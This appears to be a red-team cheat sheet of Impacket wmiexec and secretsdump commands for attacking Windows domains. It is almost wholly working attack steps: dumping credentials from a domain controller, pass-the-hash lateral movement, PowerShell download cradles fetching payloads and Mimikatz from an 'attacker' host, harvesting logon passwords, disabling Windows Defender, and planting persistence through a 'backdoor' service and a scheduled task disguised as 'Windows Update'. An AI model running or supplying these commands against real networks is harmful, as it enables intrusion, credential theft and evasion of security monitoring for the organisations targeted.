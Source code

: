 ### Initial Lateral Movement
```bash
# Step 1: Obtain credentials through various methods
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Step 2: Use extracted admin hash for WMI execution
python3 wmiexec.py -hashes :admin_hash administrator@target1.domain.com

# Step 3: Gather information from new target
# In wmiexec shell:
# whoami /priv
# net user /domain
# wmic computersystem get domain
```

### Stealth Operations
```bash
# Step 1: Use WMI for less detectable execution
python3 wmiexec.py domain.com/administrator:password@target.domain.com -shell-type powershell

# Step 2: Execute memory-only payloads
# In PowerShell shell:
# IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
# Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

### Post-Exploitation Chain
```bash
# Step 1: Access system via WMI
python3 wmiexec.py domain.com/administrator:password@target.domain.com

# Step 2: Disable security tools (in wmiexec shell)
# sc stop windefend
# sc config windefend start= disabled
# reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1

# Step 3: Establish persistence
# sc create backdoor binPath= "cmd.exe /c powershell.exe -Command ..."
# schtasks /create /tn "Windows Update" /tr "powershell.exe -Command ..." /sc onstart
```

### Credential Harvesting Chain
```bash
# Step 1: Access multiple systems with WMI
for target in $(cat targets.txt); do
    python3 wmiexec.py -hashes :hash administrator@$target "hostname && whoami"
done

# Step 2: Deploy credential harvesting tools
python3 wmiexec.py -hashes :hash administrator@target.domain.com -shell-type powershell
# In PowerShell:
# (New-Object Net.WebClient).DownloadFile('http://attacker/mimikatz.exe', 'C:\temp\m.exe')
# C:\temp\m.exe "sekurlsa::logonpasswords" exit

# Step 3: Collect results and move laterally
python3 wmiexec.py -hashes :hash administrator@target.domain.com "type C:\temp\output.txt"
```
